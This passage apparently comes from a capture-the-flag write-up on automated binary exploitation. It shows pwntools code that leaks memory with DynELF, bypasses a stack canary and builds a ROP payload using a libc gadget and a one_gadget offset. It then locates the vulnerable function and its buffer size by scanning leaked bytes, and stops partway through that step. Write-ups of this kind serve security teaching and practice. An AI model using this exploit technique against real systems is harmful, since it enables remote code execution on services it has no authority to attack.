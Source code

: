 * This gadget with nullbytes on the stack will achieve `r12 = r13 = null`.

From this we can write the following payload:
```python
# 0x0000000000028487: pop r12; pop r13; ret;
gadget_offset = 0x0000000000028487
# one_gadget
win_offset    = 0xcbd1a

# Find libc base
d         = DynELF(leaker, base)
libc      = d.lookup(None, 'libc.so')

# Build payload
ret  = b''
ret += b'A'*(size-8)             # buffer size - 8
ret += p64(canary)               # pass canary check
ret += b'A'*8                    # trash - saved rbp
ret += p64(libc + gadget_offset) # pop r12; pop r13
ret += p64(0)*2                  # r12=0, r13=0
ret += p64(libc + win_offset)    # win
```

## Automating Vulnerability Check

The buffer size might be insuffient for overflow, and we also need a variable size of A's (the `size` variable in the code above). This is something we can automate. 

Checking the leaked binary file, the vulnerable function  is often found in the range `0x1200-0x1500` from the binary base, hence we first leak this range of memory and then find the function by pattern:
```python
# leak the binary
base  = DynELF.find_base(leaker, bptr)
stuff = leaker.n(base+0x1250, 0x300)

# find function based on the bytes shown below:
#   15:   48 89 45 f8             mov    QWORD PTR [rbp-0x8], rax
#   19:   31 c0                   xor    eax, eax
#   1b:   48 c7 45 c0 00 00 00    mov    QWORD PTR [rbp-0x40], 0x0
func_addr = base+0x1250+stuff.index(b'\x48\x89\x45\xf8\x31\xc0\x48\xc7\x45')-0x15
```
Notice that we subtract 0x15 due to the pattern starting at byte 0x15 of the vulnerable function. Once we have found the location of the function we 'leak again' (most is already cached because of the @MemLeak decorator) since we want to obtain the stackframe/buffer size:
```
0:       f3 0f 1e fa             endbr64
4:       55                      push   rbp
5:       48 89 e5                mov    rbp, rsp
8:       48 83 ec 30             sub    rsp, 0x30 <--- This value
```
which is done in the code below:
```python
# Leak vulnerable function
code = leaker.n(func_addr, 200)

# Extract buffer size
size = leaker.n(func_addr+0x8, 4)[-1]
```
We now what to find the number of bytes read by the `read` call. The code looks like this:
```
48 8d 45 d0             lea    rax, [rbp-0x30]
ba 65 00 00 00          mov    edx, 0x65 <--- We want this
48 89 c6                mov    rsi, rax
bf 00 00 00 00          mov    edi, 0x0
e8 27 fc ff ff          call   0x1100
```